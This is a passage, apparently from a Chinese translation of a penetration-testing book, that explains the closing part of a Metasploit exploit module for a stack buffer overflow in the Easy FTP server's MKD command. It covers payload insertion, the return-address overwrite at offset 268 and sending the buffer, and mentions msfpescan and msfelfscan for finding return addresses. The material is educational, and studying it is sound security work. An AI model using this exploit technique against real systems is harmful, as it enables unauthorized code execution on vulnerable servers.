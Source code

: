 以下代码在运行时将动态生成的外壳代码添加到我们的漏洞中：

```
print_status("Adding the payload...") 
buf<<payload.encoded 
```

下面的代码修复堆栈数据，并在保存外壳代码缓冲区的返回地址上进行短跳转：

```
 # Patch the original stack data into the fixer stub 
buf[10, 4] = buf[268, 4] 

print_status("Overwriting part of the payload with target 
    address...") 
buf[268,4] = [target.ret].pack('V') # put return address @ 268 
    bytes 
```

最后，使用前面的代码，我们使用易受攻击的 MKD FTP post authentication 命令将最终缓冲区发送到特定目标。由于 Easy FTP 服务器中的 MKD 命令易受基于堆栈的缓冲区溢出的影响，`buf`命令将使目标堆栈溢出，并通过执行我们的有效负载利用目标系统：

```
print_status("Sending exploit buffer...") 
send_cmd( ['MKD', buf] , false) 
```

使用以下代码关闭连接：

```
handler 
disconnect 
end 

end 
```

Metasploit 配备了有用的工具，例如用于 Win32 的`msfpescan`和用于 Linux 系统的`msfelfscan`，它们可以帮助您找到特定于目标的返回地址。例如，要从您选择的申请文件中找到可持续的回信地址，请键入`# msfpescan -p targetapp.ext`。

# 总结

在本章中，我们指出了目标开发所需的几个关键领域。在开始时，我们概述了脆弱性研究，强调了渗透测试人员需要掌握必要的知识和技能，这些知识和技能反过来对脆弱性评估有效。然后，我们提供了一个在线存储库列表，您可以从中找到一些公开披露的漏洞和攻击代码。在最后一节中，我们演示了称为 Metasploit 框架的高级开发工具包的实际使用。提供的练习纯粹是为了探索和理解通过战术利用方法获取目标的过程。此外，我们通过分析框架中示例开发代码的每个步骤来解释开发开发的见解，以帮助您理解基本框架和构建策略。

在下一章中，我们将讨论使用各种工具和技术升级权限和维护访问权限的过程，以及一旦获得目标，这将如何发挥作用。